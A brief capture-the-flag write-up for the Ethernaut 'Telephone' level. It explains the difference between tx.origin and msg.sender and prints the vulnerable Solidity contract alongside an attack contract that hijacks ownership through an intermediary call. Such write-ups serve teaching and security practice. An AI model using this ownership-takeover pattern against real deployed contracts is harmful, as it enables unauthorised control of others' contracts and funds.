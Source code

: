# Level 4 : Téléphone

**Ethernaut Level 4 : Telephone : verification by tx.origin**

`tx.origin`is the address of the **EOA(Externally Owned Accounts)** from which originates the transaction. While `msg.sender` is the address of the account from which the current call is coming which could be an EOA or a Contract Account (CA).

**With `msg.sender` the owner can be a contract.**

**With `tx.origin` the owner can never be a contract.**

Here we have to copy/paste telephone.sol in remix.ide 

Create another smart contract that import telephone.sol and redirect contract 2 toward the ethernaut telephone.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
  address public owner;
  constructor() {
    owner = msg.sender;
  }
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract HackTelephone {
    constructor(){
        Telephone tel = Telephone(0xacdF2e2a451d55692E89F48beEF5BA254b60a4CF);
        tel.changeOwner(0xB3890dB67fe0aD620c0eb012994D213Ab4EB8544);
    }
}
```

Then `await contract.owner()`